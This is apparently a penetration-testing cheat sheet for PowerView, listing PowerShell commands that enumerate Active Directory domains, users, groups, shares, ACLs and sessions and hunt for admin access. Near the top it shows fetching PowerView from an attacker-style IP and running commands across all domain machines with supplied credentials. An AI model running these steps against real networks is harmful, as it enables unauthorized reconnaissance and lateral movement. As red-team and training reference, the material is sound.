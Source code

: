 https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

>PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows net commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.
>
>It also implements various useful metafunctions, including some custom-written user-hunting functions which will identify where on the network specific users are logged into. It can also check which machines on the domain the current user has local administrator access on. Several functions for the enumeration and abuse of domain trusts also exist. See function descriptions for appropriate usage and available options. For detailed output of underlying functionality, pass the -Verbose or -Debug flags.
>
For functions that enumerate multiple machines, pass the -Verbose flag to get a progress status as each host is enumerated. Most of the "meta" functions accept an array of hosts from the pipeline.

```powershell
Invoke-WebRequest -Uri http://10.10.14.9:8000/PowerView.ps1 -OutFile PowerView.ps1

. ./PowerView.ps1
Import-Module .\PowerView.ps1

//  Create Credential Object
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("fakedomain\user", $passwd)

// Gather List of all workstations on domain and store in variable
$comps = Get-NetComputer -Domain msp.local -Credential $creds

// Attempt to issue a command on each machine - any results indicate local admin on that machine
Invoke-Command -ScriptBlock{hostname} -Computer ($comps.dnshostName) -Credential $creds -ErrorAction SilentlyContinue
```

Assuming that latest PowerView script (master and dev are the same) has been loaded in memory.

### Domain Enumeration
Get basic information of the domain
```powershell
Get-Domain
```

Get domain SID
```powershell
Get-DomainSID
```

Get domain policies
```powershell
Get-DomainPolicy [-Domain <target>]
```

Get domain Kerberos policy
```powershell
(Get-DomainPolicy).KerberosPolicy
```

Get list of DCs
```powershell
Get-DomainController [-Domain <target>]
```

Get DC IP
```powershell
nslookup <target_dc>
```

### Forest Enumeration
Get current forest
```powershell
Get-Forest
```

Get a list of domains
```powershell
Get-ForestDomain [-Forest <target>]
```

#### User Enumeration
Get a list of users
```powershell
Get-NetUser [-Domain <target>] [user_name]
```

```powershell
net user /domain
```

Get a count of users
```powershell
(Get-NetUser).count
```

Get a list of users with some specific properties
```powershell
Get-NetUser [-Properties <>] 
```

Get a list of users with their logon counts, bad password attempts where attempts are greater than 0
```powershell
Get-NetUser | select cn, logoncounts, badpwdcount | ? {$_.badpwdcount -gt 0}
```

Finding users with SPN
```powershell
Get-NetUser -SPN
```

Finding users who are AllowedToDelegateTo
```powershell
Get-NetUser -TrustedToAuth
```

Finding users who can be delegated
```powershell
Get-NetUser -AllowDelegation
```
### Computer Enumeration
Get a list of computers
```powershell
Get-NetComputer [-Domain <target>] [-OperatingSystem "*2016*"] [-Properties <>]
```

Get a list of computers with Unconstrained delegation
```powershell
Get-NetComputer -Unconstrained
```

Finding users who are AllowedToDelegateTo
```powershell
Get-NetComputer -TrustedToAuth
```
### Group Enumeration
Get a list of groups in a domain
```powershell
net group /domain
```

Get a list of groups in a domain
```powershell
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']
```

Get group membership
```powershell
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]
```
### Share Enumeration
List shares user have access to
```powershell
Invoke-ShareFinder -CheckShareAccess -ErrorAction SilentlyContinue [-ComputerDomain <target_domain>]
```
### ACL Enumeration
Get resolved ACEs, optionally for a specific user/group and domain
```powershell
Get-ObjectAcl [-Identity <user_name>] [-Domain <target_domain>] -ResolveGUIDs
```

Get interesting resolved ACLs
```powershell
Invoke-ACLScanner [-Domain <target_domain>] -ResolveGUIDS
```

Get interesting resolved ACLs owned by specific object (ex. noobsec)
```powershell
Invoke-ACLScanner -ResolveGUIDS \| ?{$_.IdentityReference -match 'noobsec'}
```
### Session Enumeration
Finding sessions on a computer
```powershell
Get-NetSession [-Computer <comp_name>]
```

Get who is logged on locally where
```powershell
Get-LoggedOnLocal [-ComputerName <comp_name>]
```
### User Hunting
Get list of machines where current user has local admin access
```powershell
Find-LocalAdminAccess [-Domain <target_domain>]
```

Find machines where members of specific groups have sessions. Default: Domain Admins
```powershell
Invoke-UserHunter [-GroupName <group_name>]
```

Find machines where current user has local admin access AND specific group sessions are present
```powershell
Invoke-UserHunter -CheckAccess
```
